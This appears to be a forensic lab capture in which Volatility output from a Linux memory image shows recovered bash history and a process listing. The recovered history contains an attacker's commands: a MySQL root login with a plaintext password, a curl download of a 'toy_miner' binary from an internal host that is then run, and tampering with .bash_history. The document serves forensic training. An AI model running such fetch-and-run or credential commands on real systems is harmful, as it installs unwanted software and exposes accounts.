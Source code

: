 --cropped for brevity--
ubuntu@volatility:~/Desktop/Evidence$ vol.py -f linux.mem --profile="LinuxUbuntu_5_4_0-163-generic_profilex64" linux_bash
Volatility Foundation Volatility Framework 2.6.1
Pid      Name                 Command Time                   Command
-------- -------------------- ------------------------------ -------
    8092 bash                 2023-10-02 18:13:46 UTC+0000   sudo su
    8092 bash                 2023-10-02 18:15:44 UTC+0000   git clone https://github.com/504ensicsLabs/LiME && cd LiME/src/
    8092 bash                 2023-10-02 18:15:53 UTC+0000   ls
    8092 bash                 2023-10-02 18:15:55 UTC+0000   make
    8092 bash                 2023-10-02 18:16:16 UTC+0000   vi ~/.bash_history 
    8092 bash                 2023-10-02 18:16:38 UTC+0000    
    8092 bash                 2023-10-02 18:16:38 UTC+0000   ls -la /home/elfie/
    8092 bash                 2023-10-02 18:16:42 UTC+0000   sudo su
    8092 bash                 2023-10-02 18:18:38 UTC+0000   ls -la /home/elfie/
    8092 bash                 2023-10-02 18:18:41 UTC+0000   vi ~/.bash_history 
   10205 bash                 2023-10-02 18:19:58 UTC+0000   mysql -u root -p'NEhX4VSrN7sV'
   10205 bash                 2023-10-02 18:19:58 UTC+0000   id
   10205 bash                 2023-10-02 18:19:58 UTC+0000   curl http://10.0.2.64/toy_miner -o miner
   10205 bash                 2023-10-02 18:19:58 UTC+0000   ./miner
   10205 bash                 2023-10-02 18:19:58 UTC+0000   cat /home/elfie/.bash_history
   10205 bash                 2023-10-02 18:20:03 UTC+0000   vi .bash_history 
   10205 bash                 2023-10-02 18:21:21 UTC+0000   cd LiME/src/
ubuntu@volatility:~/Desktop/Evidence$ vol.py -f linux.mem --profile="LinuxUbuntu_5_4_0-163-generic_profilex64" linux_pslist
Volatility Foundation Volatility Framework 2.6.1
Offset             Name                 Pid             PPid            Uid             Gid    DTB                Start Time
------------------ -------------------- --------------- --------------- --------------- ------ ------------------ ----------
0xffff9ce9bd5baf00 systemd              1               0               0               0      0x000000007c3ae000 2023-10-02 18:08:02 UTC+0000
0xffff9ce9bd5bc680 kthreadd             2               0               0               0      ------------------ 2023-10-02 18:08:02 UTC+0000
0xffff9ce9bd5b9780 rcu_gp               3               2               0               0      ------------------ 2023-10-02 18:08:02 UTC+0000
0xffff9ce9bd5b8000 rcu_par_gp           4               2               0               0      ------------------ 2023-10-02 18:08:02 UTC+0000
0xffff9ce9bd5d4680 kworker/0:0H         6               2               0               0      ------------------ 2023-10-02 18:08:02 UTC+0000
0xffff9ce9bd5d0000 mm_percpu_wq         8               2               0               0      ------------------ 2023-10-02 18:08:02 UTC+0000
0xffff9ce9bd5d5e00 ksoftirqd/0          9               2               0               0      ------------------ 2023-10-02 18:08:02 UTC+0000
0xffff9ce9bd5d2f00 rcu_sched            10              2               0               0      ------------------ 2023-10-02 18:08:02 UTC+0000
0xffff9ce9bd5d9780 migration/0          11              2               0               0      ------------------ 2023-10-02 18:08:02 UTC+0000
0xffff9ce9bd5d8000 idle_inject/0        12              2               0               0      ------------------ 2023-10-02 18:08:02 UTC+0000
0xffff9ce9bd5dde00 kworker/0:1          13              2               0               0      ------------------ 2023-10-02 18:08:02 UTC+0000
0xffff9ce9bd5daf00 cpuhp/0              14              2               0               0      ------------------ 2023-10-02 18:08:02 UTC+0000
0xffff9ce9bd5dc680 kdevtmpfs            15              2               0               0      ------------------ 2023-10-02 18:08:02 UTC+0000
0xffff9ce9bd632f00 netns                16              2               0               0      ------------------ 2023-10-02 18:08:02 UTC+0000
0xffff9ce9bd634680 rcu_tasks_kthre      17              2               0               0      ------------------ 2023-10-02 18:08:02 UTC+0000
0xffff9ce9bd631780 kauditd              18              2               0               0      ------------------ 2023-10-02 18:08:02 UTC+0000